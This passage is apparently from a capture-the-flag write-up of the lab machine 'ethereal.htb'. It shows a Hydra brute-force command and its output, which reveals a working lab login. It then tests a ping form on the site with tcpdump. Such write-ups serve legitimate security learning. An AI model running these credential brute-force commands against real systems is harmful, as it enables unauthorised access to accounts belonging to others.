 #### Hydra

I'll use `hydra` to try all the username/password combinations from
pbox. I'll pass in both my username list and my password list and I can
just use the `http-get` module. It returns almost instantly with a
password that works:



    root@kali# hydra -L usernames -P passwords -s 8080 -f ethereal.htb http-get /
    Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-02-24 15:38:55
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 36 login tries (l:4/p:9), ~3 tries per task
    [DATA] attacking http-get://ethereal.htb:8080/
    [8080][http-get] host: ethereal.htb   login: alan   password: !C414m17y57r1k3s4g41n!
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-02-24 15:39:00



#### Ping Panel

Once I log in with alan's credentials, I have access to a simple form:

![](/img/1551041032445.png)

If I enter 127.0.0.1 and hit enter, I get a response:

![](/img/1551041072149.png)

If I put in my own IP, and start `tcpdump`, I see the pings (2 of them):



    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    15:43:53.043972 IP ethereal.htb > kali: ICMP echo request, id 1, seq 3, length 40
    15:43:53.044037 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 3, length 40
    15:43:55.068936 IP ethereal.htb > kali: ICMP echo request, id 1, seq 4, length 40
    15:43:55.068981 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 4, length 40
